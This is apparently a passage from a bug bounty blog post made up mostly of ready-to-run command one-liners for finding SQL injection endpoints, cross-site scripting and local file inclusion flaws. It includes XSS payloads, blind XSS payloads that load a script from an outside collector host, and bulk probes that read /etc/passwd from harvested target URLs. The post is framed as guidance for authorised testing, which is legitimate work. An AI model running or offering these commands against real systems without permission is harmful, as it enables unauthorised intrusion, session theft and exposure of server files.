 for possible SQL Endpoints:
echo http://site.com | gau | uro | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep -E '\?[^=]+=.+$'
This command filters URLs with extensions commonly linked to SQL injection vulnerabilities. For a more detailed write-up on SQL injection techniques, check out this article here 👇

Mastering SQL Injection Recon: Step-by-Step Guide for Bug Bounty Hunters
A practical guide to uncovering SQL injection flaws using automation, payloads and deep reconnaissance techniques.
infosecwriteups.com

Cross-Site Scripting (XSS) Testing
XSS is a common and dangerous vulnerability that lets attackers inject malicious scripts into web pages, leading to session hijacking, redirects or defacement. Start with these one-liners for quick detection, then move on to advanced techniques like blind XSS and parameter fuzzing for deeper testing.

echo "target.com" | gau | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox
echo "example.com" | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt
XSS Testing Using FFUF Request Mode
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr "<script>alert('XSS')</script>"
Blind XSS Testing
cat urls.txt | grep -E "(login|signup|register|forgot|password|reset)" | httpx -silent | nuclei -t nuclei-templates/vulnerabilities/xss/ -severity critical,high
subfinder -d example.com | gau | bxss -payload '"><script src=https://xss.report/c/coffinxp></script>' -header "X-Forwarded-For"
subfinder -d example.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
cat xss_params.txt | dalfox pipe --blind https://your-collaborator-url --waf-bypass --silence
Find XSS Vulnerabilities in Just 2 Minutes
Best xss automation ever
osintteam.blog

Local File Inclusion (LFI) Testing
Local File Inclusion (LFI) is a vulnerability that lets attackers include and read files from the server such as /etc/passwd, log files or configuration files. It can lead to sensitive data exposure, code execution or even full system compromise. Use the following one-liners to automate LFI detection and fuzz for vulnerable parameters.

Automated LFI discovery:
nuclei -l subs.txt -t /root/nuclei-templates/http/vulnerabilities/generic/generic-linux-lfi.yaml -c 30                                                                                      
echo "https://example.com/" | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr "root:(x|\*|\$[^\:]*):0:0:" -v
gau target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

Alternative LFI method:
echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr "root:(x|\*|\$[^\:]*):0:0:"
echo "https://example.com/" | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr "root:(x|\*|\$[^\:]*):0:0:" -v
Key components:
gf lfi: Filters URLs potentially vulnerable to LFI
qsreplace “FUZZ”: Replaces parameter values with FUZZ keyword
ffuf: Fast web fuzzer for testing payloads
-mr “root:(x|\*|\$[^\:]*):0:0:”: Matches Linux passwd file format
LFI testing Using FFUF Request Mode
ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr "root:"
payloads/lfi.txt at main · coffinxp/payloads
Contribute to coffinxp/payloads development by creating an account on GitHub.
github.com
